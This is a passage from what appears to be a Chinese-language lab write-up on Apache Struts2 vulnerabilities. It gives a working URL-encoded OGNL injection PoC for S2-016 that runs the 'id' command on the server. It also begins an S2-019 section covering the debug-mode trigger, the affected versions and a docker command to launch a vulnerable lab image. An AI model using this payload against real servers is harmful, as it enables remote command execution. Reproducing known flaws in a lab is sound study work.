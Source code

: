任意命令执行 PoC，执行 `id` 命令

```
/index.action?redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D
```

![s2-016-2](images/s2-016-2.png)

## S2-019

要求开发者模式，且 PoC 第一个参数是 `debug`，触发点在 `DebuggingInterceptor` 上，查看 `intercept` 函数，从 `debug` 参数获取调试模式，如果模式是 `command`，则把 `expression` 参数放到 `stack.findValue` 中，最终放到了 `ognl.getValue` 中。

官方公告：[S2-019](https://cwiki.apache.org/confluence/display/WW/S2-019)

### 影响版本

- [x] Struts 2.0.0 - 2.3.15.1

### 漏洞复现

运行靶场

```bash
docker run -d -p 8888:8080 medicean/vulapps:s_struts2_s2-019
```

访问 `http://your-ip:8080` ，查看如下页面
